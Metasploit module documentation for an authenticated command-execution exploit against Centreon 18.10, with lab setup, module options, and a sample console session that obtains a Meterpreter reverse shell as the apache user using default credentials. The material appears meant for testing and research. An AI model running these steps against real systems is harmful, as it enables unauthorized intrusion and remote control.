 ## Vulnerable Application

1. [Vendor site](https://download.centreon.com/)
2. [TheCyberGeek's walkthrough](https://thecybergeek.co.uk/cves/2019/09/19/CVEs.html)

### Creating A Testing Environment
Download either the OVA/OVF from https://download.centreon.com/ selecting appliances then version 18.10. 
Import OVF on virtual machine.

## Verification
Do:
1. use exploit/linux/http/centreon_cmd_exec
2. set RHOST target_ip
3. set LHOST your_ip
4. set TARGETURI /centreon
5. set USERNAME login_username
6. set PASSWORD login_password
7. exploit

## Options
Alternative options if needed.<br>
set HTTPDELAY 10<br>
The number of seconds the web server will wait before termination

set METHOD curl/wget<br>
The method used to download shell from target (default is curl)

## Scenario
For testing we use the default web credentials admin:centreon
```
root@TheCyberGeek:~/# msfconsole
msf5 > use exploit/linux/http/centreon_cmd_exec
msf5 exploit(linux/http/centreon_cmd_exec) >  set RHOST 192.168.0.47
msf5 exploit(linux/http/centreon_cmd_exec) >  set LHOST 192.168.0.12
msf5 exploit(linux/http/centreon_cmd_exec) >  set LPORT 4444
msf5 exploit(linux/http/centreon_cmd_exec) >  set TARGETURI /centreon
msf5 exploit(linux/http/centreon_cmd_exec) >  set USERNAME admin
msf5 exploit(linux/http/centreon_cmd_exec) >  set PASSWORD centreon
msf5 exploit(linux/http/centreon_cmd_exec) >  exploit

[ * ] Started reverse TCP handler on 192.168.0.12:4444
[ * ] Successfully got token 7aded091b8d304333bca634dc654fcb4
[ * ] Using URL: http://0.0.0.0:80/jtDFPIxG
[ * ] Local IP: http://192.168.0.12:80/jtDFPIxG
[ * ] Server started.
[ + ] 192.168.0.47:80 - Payload request received: /jtDFPIxG
[ * ] Sending Stage (985320 bytes) to 182.168.0.47
[ * ] Meterpreter session 3 opened (192.168.0.12:4444 -> 192.168.0.47:57338) at 2020-01-16 13:30:23 +0100
[ + ] timeout
[ * ] Server stopped. 

meterpreter > getuid
uid=48(apache) gid=48(apache) groups=48(apache),993(centreon-engine),994(centreon-broker),998(centreon),999(nagios)
```

